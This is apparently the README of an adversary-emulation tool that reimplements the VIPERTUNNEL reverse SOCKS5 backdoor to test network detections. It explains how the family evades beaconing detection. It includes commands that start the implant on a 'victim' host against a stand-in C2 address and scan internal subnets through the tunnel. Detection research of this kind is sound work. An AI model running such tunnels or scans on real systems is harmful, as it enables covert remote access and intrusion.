


# vipertunnel

**A reverse SOCKS5 tunnel, reimplemented faithfully on the wire and
deliberately nowhere else — so that a network-side detection can be measured
against this family's traffic.**


Both halves are Python 3, standard library only, no install step. The server
carries an optional operator view for running the measurement and a
purple-team mode for scoring it.



---

## Why this exists, and what it is not

The original is the Python reverse-SOCKS backdoor InfoGuard Labs documented
in *Slithering Through the Noise* (2026-04-09). Only its **client** was ever
published; the server side was not. So the server here is written to a
derivation of the client's bytes rather than to a sample, and where the two
disagree the client is right — it is the artefact that was observed.

**This reproduces the wire and nothing else.** None of the published class
names, credentials or typos are here, because the published YARA rules key on
exactly those, and a file that trips a file-based rule gets quarantined by
the very endpoints it is supposed to run on. This is a network-layer
exercise; if you want to validate YARA too, that is a different artefact and
a different decision.

## What makes this family worth measuring

Four properties, and the first is the whole reason for the repository.

**It has a setting with no periodicity at all, and it costs the operator
nothing.** The client's read deadline on the command channel is 120 seconds.
A keep-alive more often than that holds **one** TCP connection open
indefinitely — a proxy logs a single CONNECT and a byte count. Beaconing
detection is the standard tool against C2, and in this position there is
nothing to bin.

**It is a dialect, not RFC 1928.** No version bytes, little-endian ports,
inverted status codes, `addrlen` present but ignored for IPv4. Decoders that
key on `05` as the first byte never identify it as SOCKS5 — and a public
simulation of this family sends `05 01 00` and deadlocks, which means other
emulations are not testing this protocol.

**Reverse, and plaintext on 443.** The implant dials out, so no inbound rule
is needed, and nothing is wrapped in TLS — no JA3, nothing for a TLS
inspector to read. The operator side speaks real RFC 1928, so `proxychains`
and `nmap` work unmodified.

**And the honest counterweight.** TCP only, no UDP, no IPv6, no BIND. **No
proxy support at all** — it dials a hardcoded address on 443 directly, so on
a host behind a forward proxy with a destination allowlist this family cannot
run, which bounds where a detection has to look. The client does not
reconnect after a close, only after a timeout. And the `00 00` it answers any
bare probe with is what let researchers enumerate the fleet across hosting
providers.

<details>
<summary>The naming, the four code clusters, the corroborated indicators and the reading list</summary>

See [docs/provenance.md](docs/provenance.md). In short: reported by GuidePoint
on 2025-01-15, named **VIPERTUNNEL** by Google *Threat Horizons* a day later
and tied to **UNC2165 / EvilCorp** — under OFAC sanctions since 2019 —
typically as a follow-on to a SocGholish infection, with the access then sold
on. **Nothing in this repository contains a C2 address.**

</details>

## The shape of it



| | |
|---|---|
| `client/` | the implant, `supervise.py` to restart it and date each death, and `start-client.sh` |
| `server/` | the counterpart the family never published, the operator dashboard, and `start-server.sh` |
| `preflight/` | ask a proxy whether this can work at all, before deploying |
| `tests/` | the wire, the supervisor, the dashboard — `./run-tests.sh` |
| `docs/` | everything in the table at the bottom |

## Running it

Two terminals.

```bash
# the server, on the host the implant can reach
sudo -E ./server/start-server.sh                 # KEEPALIVE=0 by default: cadence
KEEPALIVE=60 sudo -E ./server/start-server.sh    # one held connection instead
DASHBOARD=8787 sudo -E ./server/start-server.sh  # and an operator view on loopback

# the implant, on the victim
PROXY=127.0.0.1:3128 ./client/start-client.sh c2.example.com
JITTER=0.35 PROXY=127.0.0.1:3128 ./client/start-client.sh c2.example.com
```

Then drive traffic through the operator port, which speaks real RFC 1928:

```bash
curl --socks5 127.0.0.1:1080 http://10.0.0.5/
proxychains -q nmap -sT -Pn -p 445,3389 10.0.0.0/24
```

`KEEPALIVE` is **the measurement knob** and its effect is a step, not a
slope — see [docs/measurement.md](docs/measurement.md). `JITTER` spreads the
reconnect period, which is how you find the jitter a periodicity detection
stops firing at; the original has none, so it is a deviation and the client
says so.

`PORT=443` is the default and worth keeping: the proxy allowlist you are
measuring through may permit `CONNECT` to 443 and nothing else, in which case
a different port measures the proxy instead of the tunnel. It needs root, or
pick a higher port knowing what you traded.

## The operator view

`DASHBOARD=8787`, then `ssh -N -L 8787:127.0.0.1:8787 you@the-host`. It is
**off by default and out of band**: a listening HTTP port is a trait this
family does not have, so a scan taken with it up reports the tool rather than
the thing being emulated.

| | |
|---|---|
| **the knob, live** | turn it mid-run and get both shapes in one timeline, one client, one ledger |
| **the cadence** | mean, standard deviation and coefficient of variation over the gaps — the arithmetic a beaconing detection runs, so you know whether a run is detectable before anyone opens the SIEM |
| **the ledger beside a reconstructed proxy log** | everything that happened, next to everything a detection gets. The gap between the two panes is the point of the repository |
| **the wire tap** | the handshake byte for byte with the deviation from RFC 1928 named at each step, so the faithfulness claim is checkable rather than asserted |
| **the fingerprint probe** | what a scanner pointed at this host gets back, beside what the real infrastructure returned |
| **phases, ingest, debrief** | name the stretch you are running, `POST` your SIEM's alerts to `/api/ingest`, and download the run as one markdown file with the time-to-detect per phase |
| **a scan through the tunnel** | the dialect's native operation — it supports `CONNECT` and nothing else |

`--dashboard-view 8788` adds a second, read-only board for the blue team to
watch the same ground truth during a joint exercise. It can still ingest
detections and change nothing else.

Details and the design decisions in [docs/dashboard.md](docs/dashboard.md).

## Safety rails

These are the three places this is deliberately **not** faithful, because the
original had no reason to be careful and this runs on your network.

| | |
|---|---|
| **Relaying is lab-only by default** | the private ranges, loopback and link-local. An operator port on loopback plus a mistyped CIDR is otherwise enough to scan the public internet through somebody's workstation. `--allow-public` turns it off, warns, and says so in the ledger |
| **The payload is not captured by default** | `--tap` captures a bounded sample, keeps it in memory behind a standing red warning, and offers it as a reconstructed pcap. It never reaches the ledger. It is a decision about somebody's network, not a convenience |
| **The dashboard binds loopback only** | and is off unless asked for |

## Where everything is written down

| Document | Answers |
|---|---|
| [docs/protocol.md](docs/protocol.md) | the dialect, byte for byte, and why an RFC 1928 client cannot talk to it |
| [docs/measurement.md](docs/measurement.md) | the keep-alive knob, why its effect is a step, where jitter has to live, the ledger, and what to expect of a periodicity detection |
| [docs/deployment.md](docs/deployment.md) | the proxy preflight and its three verdicts, the two proxy shapes, and whether Mythic helps |
| [docs/dashboard.md](docs/dashboard.md) | the operator view: what it shows, what it can change, the tap and the pcap, and why it is out of band |
| [docs/provenance.md](docs/provenance.md) | who named the family and when, the four clusters, the infrastructure traits, the corroborated indicators, MITRE ATT&CK, and the reading list |

## Authorisation

This is adversary emulation for a detection measurement in a lab you own.
Running it anywhere else is somebody else's intrusion.
